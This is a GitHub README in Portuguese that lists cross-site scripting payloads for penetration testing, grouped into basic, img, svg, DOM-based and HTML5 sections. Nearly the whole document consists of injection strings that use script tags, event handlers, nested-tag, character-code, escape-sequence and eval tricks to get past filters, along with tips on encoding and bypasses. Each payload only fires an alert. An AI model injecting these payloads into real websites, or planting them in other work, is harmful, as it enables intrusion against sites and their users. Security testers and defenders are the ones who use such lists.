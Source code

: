 # XSS-scripts
Vários scripts voltados a exploração da vulnerabilidade XSS

OBS > SEMPREEEE ENCONDEEEE O SCRIPT

Posivel BYPASS - Trocar o (.) por > %2f

# XSS-Html

// Basic payload
<script>alert('XSS')</script>

<scr<script>ipt>alert('XSS')</scr<script>ipt>
  
"><script>alert('XSS')</script>
  
"><script>alert(String.fromCharCode(88,83,83))</script>
  
<script>\u0061lert('22')</script>
  
<script>eval('\x61lert(\'33\')')</script>
  
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
  
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
  
<img src=x onerror=alert('XSS')//
     
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
  
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
  
<img src=x:alert(alt) onerror=eval(src) alt=xss>
  
"><img src=x onerror=alert('XSS');>
  
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

// Svg payload
  
<svgonload=alert(1)>
  
<svg/onload=alert('XSS')>
  
<svg onload=alert(1)//
     
<svg/onload=alert(String.fromCharCode(88,83,83))>
  
<svg id=alert(1) onload=eval(id)>
  
"><svg/onload=alert(String.fromCharCode(88,83,83))>
  
"><svg/onload=alert(/XSS/)
              
<svg><script href=data:,alert(1) />(test)
  
<svg><script>alert('33')
  
<svg><script>alert&lpar;'33'&rpar;
  
# DomBased XSS
  // obs: Utilizar a extensão DOM Invader
  
123#"><img src=/ onerror=alert(2)>123

# XSS Html 5

<body onload=alert(/XSS/.source)>
  
<input autofocus onfocus=alert(1)>
  
<select autofocus onfocus=alert(1)>
  
<textarea autofocus onfocus=alert(1)>
  
<keygen autofocus onfocus=alert(1)>
  
<video/poster/onerror=alert(1)>
  
<video><source onerror="javascript:alert(1)">
  
<video src=_ onloadstart="alert(1)">
  
<details/open/ontoggle="alert`1`">
  
<audio src onloadstart=alert(1)>
  
<marquee onstart=alert(1)>
  
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> //
  
<body ontouchend=alert(1)>   // 
  
<body ontouchmove=alert(1)>  // 




